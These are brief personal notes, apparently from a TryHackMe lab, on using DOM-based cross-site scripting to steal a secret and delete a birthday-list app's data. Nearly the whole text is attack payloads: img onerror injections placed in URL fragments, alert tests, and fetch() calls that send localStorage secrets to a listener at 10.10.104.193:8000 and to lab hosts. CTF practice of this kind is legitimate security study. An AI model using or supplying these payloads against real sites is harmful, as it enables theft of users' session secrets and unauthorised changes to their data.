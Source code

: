 how to delete all birthdays
-> to get to know `?secret=` value 
-> using DOM xss ? 

https://realwebsite.com#<img src=1 onerror=alert(document.secret)></img>
=> checking the dom xss attack is working 
=> using this how to know the secret value ? 
document.secret? 

https://realwebsite.com#<img src=1 onerror="fetch('http://10.10.104.193:8000?secret=' + localStorage.getItem('secret'))"></img>

<img src=1 onerror="fetch('http://10.10.104.193:8000' + localStorage.getItem('secret'))">

https://realwebsite.com#<img src = 1 onerror=alert(localStorage.getItem('secret'))>

https://realwebsite.com#<img src=1 onerror=alert(panda)></img>


<img src=1 onerror="window.location='http://lists.tryhackme.loc:5001/ping'">

<img src=1 onerror="fetch('http://lists.tryhackme.loc:5173/bdays/45e358301c6946548b72d15c3e2ab797?secret=' + localStorage.getItem('secret'))">

http://lists.tryhackme.loc:5173/bdays/45e358301c6946548b72d15c3e2ab797?secret=
